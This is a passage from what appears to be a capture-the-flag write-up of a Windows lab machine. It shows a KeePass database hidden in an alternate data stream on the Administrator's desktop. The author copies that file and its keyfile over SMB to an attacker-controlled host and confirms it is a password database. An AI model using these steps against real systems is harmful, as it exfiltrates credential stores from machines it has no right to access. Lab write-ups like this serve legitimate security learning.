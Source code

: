 We can check this by doing `dir /r` in the Desktop folder and we can see:

```
C:\Users\Administrator\Desktop>dir /ah
dir /ah
 Volume in drive C has no label.
 Volume Serial Number is 7882-4E78

 Directory of C:\Users\Administrator\Desktop

06/10/2018  14:33             1,519 root.txt
               1 File(s)          1,519 bytes
               0 Dir(s)  16,316,542,976 bytes free

C:\Users\Administrator\Desktop>dir /r /ah
dir /r /ah
 Volume in drive C has no label.
 Volume Serial Number is 7882-4E78

 Directory of C:\Users\Administrator\Desktop

06/10/2018  14:33             1,519 root.txt
                              7,294 root.txt:Zone.Identifier:$DATA
               1 File(s)          1,519 bytes
               0 Dir(s)  16,316,542,976 bytes free

```

Because the box only has powershell version 2, I can't use the `-stream` flag to extract the ADS. But I found by pure luck that copying the file over SMB will automatically extract the data stream and create two files on my VM:

```
C:\Users\Administrator\Desktop>attrib -h root.txt

C:\Users\Administrator\Desktop>copy root.txt \\10.10.14.23\share
        1 file(s) copied.

[...]

-rwxr-xr-x  1 root root   1519 Dec 31  1969 root.txt
-rwxr-xr-x  1 root root   7294 Oct  6 10:33 root.txt:Zone.Identifier
```

I also copied the keyfile `admin.png`, then renamed `root.txt:Zone.Identifier` file to a .kdbx extension:

```
C:\Users\Administrator\Desktop>copy ..\pictures\admin.png \\10.10.14.23\share
copy ..\pictures\admin.png \\10.10.14.23\share
        1 file(s) copied.
```

```        
# file root.kdbx 
root.kdbx: Keepass password database 2.x KDBX
```
